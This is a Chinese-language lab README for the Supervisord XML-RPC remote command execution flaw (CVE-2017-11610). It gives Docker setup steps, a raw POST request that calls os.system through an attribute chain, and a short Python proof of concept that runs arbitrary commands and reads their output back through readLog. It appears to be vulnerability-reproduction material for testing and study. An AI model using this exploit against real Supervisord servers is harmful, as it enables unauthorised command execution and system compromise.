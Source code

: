 # Supervisord 远程命令执行漏洞（CVE-2017-11610）

参考链接（可以详细看一下第一篇文章）： 

 - https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
 - https://blogs.securiteam.com/index.php/archives/3348
 - https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 运行环境

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

## 漏洞测试

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![](01.png)

## 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![](02.png)